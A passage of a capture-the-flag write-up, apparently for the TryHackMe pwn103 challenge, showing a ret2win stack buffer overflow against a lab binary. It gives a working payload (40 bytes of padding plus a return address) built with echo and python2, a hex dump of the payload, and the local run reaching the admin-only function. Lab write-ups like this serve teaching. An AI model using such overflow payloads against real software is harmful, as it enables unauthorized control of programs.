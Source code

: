 > **Return to Win**.

Note that the track is **NO PIE** (view [checksec](#checksec)), so:

- **ret2win** to `admins_only@ 0x401554`.

## Crafting the Payload

Payload:
- **Go to *general***: 3
- **Exploit the BOF**: fill the *local_28* variable with 32 bytes of padding and also the saved *rbp* with 8 bytes.

```bash
$ echo "3" > payload

$ python2 -c 'print b"A"*40 + b"\x5c\x15\x40\x00\x00\x00\x00\x00\x00" + b"\n"' >> payload

$ xxd payload 
00000000: 330a 4141 4141 4141 4141 4141 4141 4141  3.AAAAAAAAAAAAAA
00000010: 4141 4141 4141 4141 4141 4141 4141 4141  AAAAAAAAAAAAAAAA
00000020: 4141 4141 4141 4141 4141 5c15 4000 0000  AAAAAAAAAA\.@...
00000030: 0000 000a 0a                             .....

```

## Local Exploitation

The exploit is run locally.

```bash
$ ./pwn103 < payload 
⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿
⣿⣿⣿⡟⠁⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠈⢹⣿⣿⣿
⣿⣿⣿⡇⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⢸⣿⣿⣿
⣿⣿⣿⡇⠄⠄⠄⢠⣴⣾⣵⣶⣶⣾⣿⣦⡄⠄⠄⠄⢸⣿⣿⣿
⣿⣿⣿⡇⠄⠄⢀⣾⣿⣿⢿⣿⣿⣿⣿⣿⣿⡄⠄⠄⢸⣿⣿⣿
⣿⣿⣿⡇⠄⠄⢸⣿⣿⣧⣀⣼⣿⣄⣠⣿⣿⣿⠄⠄⢸⣿⣿⣿
⣿⣿⣿⡇⠄⠄⠘⠻⢷⡯⠛⠛⠛⠛⢫⣿⠟⠛⠄⠄⢸⣿⣿⣿
⣿⣿⣿⡇⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⢸⣿⣿⣿
⣿⣿⣿⣧⡀⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⢡⣀⠄⠄⢸⣿⣿⣿
⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣶⣆⣸⣿⣿⣿
⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿

  [THM Discord Server]

➖➖➖➖➖➖➖➖➖➖➖
1) 📢 Announcements
2) 📜 Rules
3) 🗣  General
4) 🏠 rooms discussion
5) 🤖 Bot commands
➖➖➖➖➖➖➖➖➖➖➖
⌨️  Choose the channel: 
🗣  General:

------[jopraveen]: Hello pwners 👋
------[jopraveen]: Hope you're doing well 😄
------[jopraveen]: You found the vuln, right? 🤔

------[pwner]: Try harder!!! 💪

👮  Admins only:

Welcome admin 😄
Bus error (core dumped)
```